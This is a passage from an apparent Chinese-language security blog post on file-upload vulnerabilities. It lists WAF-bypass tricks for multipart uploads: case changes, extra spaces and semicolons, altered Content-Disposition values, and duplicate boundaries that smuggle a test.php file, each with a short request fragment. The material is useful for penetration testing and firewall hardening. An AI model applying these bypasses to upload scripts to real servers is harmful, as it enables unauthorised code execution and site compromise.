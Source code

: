 对这三个固定的字符串进行大小写转换

- Content-Disposition
    
- name
    
- filename
    
    ### 空格[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E7%A9%BA%E6%A0%BC)
    
    在: ; =添加1个或者多个空格。
    

### 去掉或修改Content-Disposition值[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E5%8E%BB%E6%8E%89%E6%88%96%E4%BF%AE%E6%94%B9Content-Disposition%E5%80%BC)

有的WAF在解析的时候，认为Content-Disposition值一定是form-data，造成绕过。

|   |   |
|---|---|
|1|Content-Disposition: name='file_x'; filename='xx.php'|

### 多个boundary[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E5%A4%9A%E4%B8%AAboundary)

最后上传的文件是test.php而非test.txt，但是取的文件名只取了第一个就会被Bypass。

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7|------WebKitFormBoundaryj1oRYFW91eaj8Ex2  <br>Content-Disposition: form-data; name="file_x"; filename="test.txt"  <br>Content-Type: text/javascript  <br>  <br>------WebKitFormBoundaryj1oRYFW91eaj8Ex2  <br>Content-Disposition: form-data; name="file_x"; filename="test.php"  <br>Content-Type: text/javascript|

### 多个分号[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#%E5%A4%9A%E4%B8%AA%E5%88%86%E5%8F%B7)

文件解析时，可能解析不到文件名，导致绕过。

|   |   |
|---|---|
|1|Content-Disposition: form-data; name="file_x";;; filename="test.php"|

### Header在boundary前添加任意字符[](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#Header%E5%9C%A8boundary%E5%89%8D%E6%B7%BB%E5%8A%A0%E4%BB%BB%E6%84%8F%E5%AD%97%E7%AC%A6)

PHP支持，JAVA报错

|   |   |
|---|---|
|1|Content-Type: multipart/form-data; bypassboundary=----WebKitFormBoundaryj1oRYFW91eaj8Ex2|
